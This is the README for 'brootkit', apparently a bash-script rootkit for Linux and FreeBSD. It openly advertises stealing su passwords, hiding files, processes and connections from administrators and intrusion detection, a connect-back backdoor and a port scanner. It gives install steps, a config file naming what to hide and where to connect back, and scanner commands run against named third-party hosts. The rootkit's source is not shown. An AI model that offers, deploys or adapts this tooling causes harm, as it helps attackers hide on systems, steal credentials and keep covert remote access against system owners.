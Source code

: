 ######BROOTKIT
    Lightweight rootkit implemented by bash shell scripts v0.10
    
    by wzt 2015   wzt.wzt@gmail.com
    
    If bash shell scripts can be designed for security tools like chkrootkit
    or rkhunter, so it can be implemented for a rootkit.

######FEATURES
    1. more hidable ability against admintrator or hids.
    2. su passwd thief.
    3. hide file and directorys.
    4. hide process.
    5. hide network connections.
    6. connect backdoor.
    7. muilt thread port scanner.
    8. http download.

######TARGET OS
    1. centos
    2. rhel
    3. ubuntu
    4. debian
    5. fedroa
    6. freebsd

######TUDO
    1. sudo thief support.

######INSTALL

    Linux distribution systems.

    1. edit br.conf first

      brootkit config file.

      #the ports will be hide: port1,port2,...,portn.
      HIDE_PORT               8080,8899
      #the files will be hide: file1,file2,...,filen.
      HIDE_FILE               br.conf,bashbd.sh,brootkit,.bdrc,brdaemon
      #the process will be hide: process1,process2,...,processn.
      HIDE_PROC               bashbd,brootkit,pty.spawn,brdaemon
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60
    2. ./install.sh

    3. muilt thread port scanner.

      [root@localhost brootkit]$ ./brscan.sh
      ./brscan.sh <-p> [-n|-t|-o|-h] <remote_host>

      option:
      -p              ports, pattern: port1,port2,port3-port7,portn...
      -n              thread num, defalut is 10
      -t              timeout, default is 30s
      -o              results write into log file, default is brscan.log
      -h              help information.

      exp:
      ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 20 www.cloud-sec.org
      ./brscan.sh -p 1-65525 -n 200 -t 20 www.cloud-sec.org

      [root@localhost brootkit]# ./brscan.sh -p 21,22,23-25,80,135-139,8080 -t 5 -n 20 www.wooyun.org
      host: www.wooyun.org | total ports: 10 | thread num: 10 timeout: 5 | logfile: brscan.log

      thread<0    >           --              pid <57053>     -->     21
      thread<1    >           --              pid <57054>     -->     22
      thread<2    >           --              pid <57055>     -->     23
      thread<3    >           --              pid <57056>     -->     24
      thread<4    >           --              pid <57057>     -->     80
      thread<5    >           --              pid <57058>     -->     135
      thread<6    >           --              pid <57059>     -->     136
      thread<7    >           --              pid <57060>     -->     137
      thread<8    >           --              pid <57061>     -->     138
      thread<9    >           --              pid <57070>     -->     8080

      [>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>>]     10/10     6 s

    www.wooyun.org: 80

    Freebsd system
    on the modern freebsd system, root use csh by default, the other users
    use sh default. this version brootkit can only support sh based features.

    1. edit brsh.conf first

    brshootkit config file, only one argument support.

      #the port will be hide.
      HIDE_PORT               8080
      #the files will be hide file.
      HIDE_FILE               brsh
      #the process will be hide process.
      HIDE_PROC               sh
      #the connect back host domain name or ip address.
      REMOTE_HOST             localhost
      #the connect back host port.
      REMOTE_PORT             8080
      #the connect backdoor base sleep time.
      SLEEP_TIME              60
    2. ./install.sh

######SOURCE
    https://github.com/cloudsec/brootkit
